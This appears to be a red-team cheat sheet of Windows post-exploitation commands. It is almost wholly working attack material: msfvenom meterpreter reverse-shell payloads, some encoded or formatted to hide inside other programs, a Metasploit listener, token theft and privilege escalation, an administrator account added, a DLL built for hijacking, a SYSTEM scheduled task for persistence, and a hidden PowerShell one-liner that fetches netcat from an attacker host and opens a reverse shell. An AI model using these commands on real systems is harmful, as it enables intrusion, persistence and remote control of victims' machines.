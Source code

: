 VBA MSF:

    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-exe
    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-psh

Generate payload:

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -e x86/shikata_ga_nai -f exe > payload.exe

Use listener:

    msfconsole -q -x "set payload windows/meterpreter/reverse_tcp;use exploit/multi/handler;set LHOST 192.168.1.1;set LPORT 4444;set ExitOnSession false;exploit -j;"

Inteactions with sessions:

    session -i 1  (means interact with session 1)
    shell (Launches cmd on victim machine)
    bg (backgrounding current meterpreter session)

PrivEsc Tool:

    run post/multi/recon/local_exploit_suggester
    set SESSIOS 1
    load incognito
    list tokens -u 

Stealthy Operations:

    migrate -N explorer.exe
    run post/windows/manage/migrate

VBA PowerShell Dropper
VBA Powercat

adding user to administrator group:
    
    cmd.exe /k net localgroup administrators user /add

restarting service:
    
    sc stop dllsvc & sc start dllsvc

command for compile on kali linux:

    x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll

create scheduled task with cmd
    
    schtasks /create /tn "SecurityStartup" /tr "C:\pathtoprogram.exe" /sc ONSTART /ru SYSTEM /rl HIGHEST /f

create a meterpreter shellcode for single line good for hide in the another program

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f c | tr -d '\n' | sed 's/ //g'

runas.exe

    net users
    runas /user:usernameofvictim "cmd.exe"
    runas /user:Machinename\usernameofvictim "cmd.exe"

Powershell history file in environment

    cat $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

drop nc.exe (Netcat) Attacker machine and executes as a background command:

    powershell -Command "$out = Join-Path $env:Temp 'nc.exe'; Invoke-WebRequest -Uri 'http://192.168.1.10/nc.exe' -OutFile $out; Start-Process $out -ArgumentList '192.168.1.65 55522 -e powershell' -WindowStyle Hidden"

